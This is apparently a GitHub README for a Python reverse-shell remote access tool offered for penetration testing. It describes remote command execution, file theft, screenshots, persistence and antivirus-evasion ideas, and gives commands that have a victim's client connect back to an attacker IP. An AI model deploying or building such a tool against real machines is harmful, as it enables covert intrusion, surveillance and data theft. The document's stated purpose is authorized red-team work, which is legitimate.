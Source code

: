# 🕳️ Reverse Shell – Python Remote Access Tool (RAT)

## 📌 Project Overview

The **Reverse Shell** is a Python-based remote access utility crafted for ethical hacking, penetration testing, and red-team simulation. It allows an attacker (authorized tester) to **remotely execute system commands** on a target machine after establishing a **reverse TCP connection**.

Unlike bind shells, which require open ports on the target, reverse shells initiate the connection from the victim to the attacker's listener—**bypassing firewall restrictions and NAT** in many cases.

> ⚠️ **DISCLAIMER**: This tool is developed strictly for **educational purposes**, **red team simulations**, and **authorized penetration testing only**. Unauthorized use is illegal and unethical.

---

## 🧠 Key Features

- 📡 **Reverse TCP Connectivity** (client connects to server)
- 💻 **Command Execution** (run shell commands remotely)
- 📂 **File Upload/Download Support**
- 📸 **Take Picture/Screenshots**
- 🧠 **Gathers OS information**
- 🔒 **Customizable Port & Host Settings**
- 🧵 **Multithreaded Listener (optional enhancement)**

---

## 🛠️ Technology Stack

| Component   | Details                                                                            |
|-------------|-------------------------------------------------------------------------------------|
| Language    | Python 3                                                                           |
| Libraries   | `socket`, `os`, `subprocess`, `threading`, `base64`, `json` (for structured comms) |
| OS Support  | Linux, Windows, macOS                                                              |
| Mode        | TCP socket-based                                                                   |

---

## 🧪 How It Works

### 1. Attacker starts the **listener (server)**
```bash
python3 server.py
# or with specific IP/Port
python3 server.py --host <your_ip> --port 4444
```

### 2.Victim executes the payload (reverse shell client)
```bash
This could be manually executed or delivered via a payload in a simulated scenario:
# both IP/Port should be same in server & client side
python3 client.py --host <attacker_ip> --port <attacker_port>
```
---
## 📂 File Transfer Support (Optional Enhancement)
Upload (send file to victim):
```bash
upload /path/to/local/file.txt
```
Download (retrieve file from victim):
```bash
download C:\\Users\\victim\\file.txt
```
---
## 🔐 Security Considerations
|Feature	               |  Details                                              |
|------------------------|-------------------------------------------------------|
|🔒 Encrypted payloads   |	Optionally encode payloads in base64 or AES          |
|🧅 Obfuscation    	     |  Use variable obfuscation or sleep intervals          |
|🔁 Persistence	       |  Optional: register to autorun on startup             |
|🔍 Evasion             |   Mimic legitimate system processes or rename script  |

These features should only be used in legal, ethical testing environments.

## 🚀 Setup Instructions
---
Install dependencies
Most scripts only require built-in libraries:
```bash
python3 --version
```
**Run attacker-side listener**
```bash
python3 listener.py
```
**Deploy or test reverse shell client**
```bash
python3 reverse_shell.py
```
---
## 🧠 Use Cases

- 🔴 **Red Team Operations**
- 🧪 **Penetration Testing Labs**
- 🎓 **Cybersecurity Training**
- 🧰 **Tool Development in Adversary Simulation**
- 📖 **Learning C2 (Command and Control) Concepts**

---

## 🚫 Legal & Ethical Use

- ❗ **This software is to be used only under the following circumstances:**
- You own the target machine
- You have explicit written permission to test the target
- You're operating in a controlled lab or CTF environment

Misuse of this software can lead to criminal prosecution. The author assumes no responsibility for any unauthorized or malicious use.

## 🛠️ Future Enhancements
- AES or RSA encrypted communication
- Polymorphic payload generator
- GUI shell controller (e.g., PyQT interface)
- Reverse HTTPS support
- Port to Go or Rust for AV evasion

## 🧾 License
**This project is licensed under the MIT License and intended for educational, ethical testing only.**

